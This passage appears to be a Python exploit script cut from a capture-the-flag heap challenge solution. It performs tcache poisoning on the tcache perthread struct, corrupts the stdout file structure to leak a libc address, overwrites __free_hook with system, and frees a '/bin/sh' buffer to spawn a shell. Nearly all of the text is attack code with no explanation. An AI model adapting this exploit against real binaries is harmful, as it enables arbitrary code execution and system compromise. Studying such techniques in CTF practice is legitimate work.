add(5,0x98)
add(6,0x98)
add(7,0x98)
edit(0,b'a'*0xa8,b'b'*0x90)
#tcabin attack >>>  tcache perthread struct
free(3)
free(2)
edit(1,b'a'*0x10,b'b'*0x90+p64(0xa1)+b'\x10\xb0')
add(8,0x98)
add(9,0x98)

edit(9,b'a'*0x20,p16(0x6)*4+p64(0x5))

#tcabin attack >>>  tcache perthread struct  heap_fd
free(5)
free(4)
edit(1,b'a'*0x10,b'b'*0x90+p64(0xa1)+b'a'*0x98+p64(0xa1)+b'\x00'*0x98+p64(0xa1)+b'\xa0\xb0')
add(10,0x98)
add(11,0x98)

edit(11,b'a'*0x8,p64(0)*2+p64(0x1e1))
edit(9,b'a'*0x20,p16(0x6)*4+p64(0x5))
free(7)
free(6)

#tcabin attack >>>  fake_chunk

edit(1,b'a'*0x10,b'b'*0x90+p64(0xa1)+b'a'*0x98+p64(0xa1)+b'\x00'*0x98+p64(0xa1)+b'\x00'*0x98+p64(0xa1)+b'\x00'*0x98+p64(0xa1)+b'\xc0\xb0')
add(12,0x98)
add(13,0x98)
edit(9,b'a'*0x20,p16(0x7)*40)
free(13)

#修改fd为stdout
edit(11,b'a'*0x8,p64(0)*2+p64(0x1e1)+b'\x78\x26')    #_IO_stdout
add(14,0x78)
edit(14,b'a'*0x8,b'\x00'*0x20+p64(0xfbad1800) + p64(0)*3 + b'\x00')
rl(b'\x00'*8)
libc_base=u64(p.recv(6).ljust(8, b'\x00'))-0x1ec980
li(libc_base)
system,bin=get_sb()
hook=libc_base+libc.sym['__free_hook']
edit(9,b'a'*0x20,p16(0x5)*40)

free(12)
free(10)
edit(1,b'a'*0x10,b'b'*0x90+p64(0xa1)+b'a'*0x98+p64(0xa1)+b'\x00'*0x98+p64(0xa1)+p64(hook-8))
add(15,0x98)
add(16,0x98)
edit(16,p64(system),p64(system))
edit(1,b'a'*0x10,b'/bin/sh\x00'*0x100)
free(8)
inter()
```
